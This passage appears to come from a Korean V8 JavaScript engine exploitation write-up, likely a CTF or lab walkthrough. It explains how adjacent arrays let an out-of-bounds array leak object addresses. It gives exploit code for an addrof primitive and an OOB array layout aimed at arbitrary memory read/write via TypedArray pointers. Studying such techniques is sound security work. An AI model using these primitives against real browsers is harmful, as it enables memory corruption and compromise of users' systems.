 함수 내부에서 `oob_arr`과 `obj_arr`을 연속해서 정의하면 메모리 상에서 인접한 위치에 할당된다. 따라서 `oob_arr`을 통해 `obj_arr`의 메모리에 접근하여 값을 읽고 쓸 수 있다.

![image](https://github.com/user-attachments/assets/bba863f9-8442-4d71-8165-108c0e5f0e01)

![image](https://github.com/user-attachments/assets/ae00e142-2d7d-4ccf-bb66-47a1a92e38ed)

![image](https://github.com/user-attachments/assets/5edd7a0d-8132-4efd-b3f8-0106bb05e3e3)

OOB를 이용하여 `obj_arr[0]`에 저장된 값을 읽으면 `obj_arr[0]`에 저장된 object의 주소를 double 형태로 얻을 수 있다.

```js
// get address of |obj|
function addrof(obj) {
    obj_arr[0] = obj;
    return ftoi(oob_arr[7]);
}

// addrof test
let tmp_obj_addr = addrof(tmp_obj);
console.log(`[+] tmp_obj_addr == ${hex(tmp_obj_addr)}`);
```

![image](https://github.com/user-attachments/assets/08b203dc-4958-4b98-be61-2c5535195ed6)

### Arbitrary address read/write

```js
let oob_arr;
let obj_arr;
let tmp_obj = {};
let typed_arr;

(function layout() {
    oob_arr = [1.1];
    obj_arr = [tmp_obj];
    typed_arr = new BigUint64Array(1);
})();

// generate oob array
oob_arr.length = 0x1000;
console.log(`[+] oob_arr.length == ${hex(oob_arr.length)}`);

% DebugPrint(oob_arr);
% Debugprint(typed_arr);
```

![image](https://github.com/user-attachments/assets/5620dffe-4af4-4cb0-9d1a-2c612b4f008b)

![image](https://github.com/user-attachments/assets/1142ceb0-733c-4251-8f8e-e4cbd2b959a8)

`TypedArray`의 `base_pointer`와 `external_pointer`의 합(`data_ptr`)은 첫 번째 element가 저장된 주소가 된다.
